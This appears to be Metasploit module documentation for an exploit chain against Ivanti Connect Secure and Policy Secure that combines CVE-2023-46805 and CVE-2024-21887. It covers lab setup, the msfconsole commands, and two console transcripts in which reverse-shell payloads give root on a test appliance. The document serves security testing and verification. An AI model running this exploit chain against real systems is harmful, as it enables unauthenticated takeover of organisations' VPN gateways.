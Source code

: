 ## Vulnerable Application
This module chains an authentication bypass vulnerability (CVE-2023-46805) and a command injection
vulnerability (CVE-2024-21887) to exploit vulnerable instances of either Ivanti Connect Secure or Ivanti
Policy Secure, to achieve unauthenticated remote code execution. All currently supported versions 9.x and
22.x prior to the vendor mitigation are vulnerable. It is unknown if unsupported versions 8.x and below are
also vulnerable.

## Testing
To test we used Ivanti Connect Secure version 22.3R1 (build 1647), deployed as a virtual appliance for HyperV. The
below steps are for HyperV, but it should be very similar to install on VMWare.

* Signup for a trial to download the file `ps-ics-hyper-v-isa-v-22.3r1.0-b1647-package.zip`
* From this ZIP file, extract the file `ISA-V-HYPERV-ICS-22.3R1-1647.1-VT-hyperv.vhdx`
* Create a new VM in HyperV and specify the VHDX file as the hard drives media.
* Boot the VM and follow the console instructions to install the product.
* After installation completes, you will have created an admin account and password. You can log into the admin
web interface by visiting https://<TARGET_IP_ADDRESS>/admin in your web browser if you want.

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/http/ivanti_connect_secure_rce_cve_2023_46805`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp`
6. `check`
7. `exploit`

## Scenarios
To support a broad set of available payloads, we support both a Linux target and a Unix Target. This allows for native
Linux payloads to be used, but also payloads like Python meterpreter or a Bash shell.

### Linux Target

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set RHOST 192.168.86.111
RHOST => 192.168.86.111
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set target 0
target => 0
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2023_46805):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      DbFmtsbLwkUU     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > check
[+] 192.168.86.111:443 - The target is vulnerable. IVE-OS 22.3R1 (1647)
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. IVE-OS 22.3R1 (1647)
[*] Sending stage (3045380 bytes) to 192.168.86.111
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.111:27576) at 2024-01-17 10:16:52 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.111
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
meterpreter >
```

### Unix Target

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set target 1
target => 1
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2023_46805):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > check
[+] 192.168.86.111:443 - The target is vulnerable. IVE-OS 22.3R1 (1647)
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. IVE-OS 22.3R1 (1647)
[*] Command shell session 2 opened (192.168.86.42:4444 -> 192.168.86.111:27582) at 2024-01-17 10:19:19 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux localhost2 4.15.18.34-production #1 SMP Fri Jun 17 13:08:47 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
pwd
/data/var/cores
cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
exit
[*] 192.168.86.111 - Command shell session 2 closed.
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) >
```

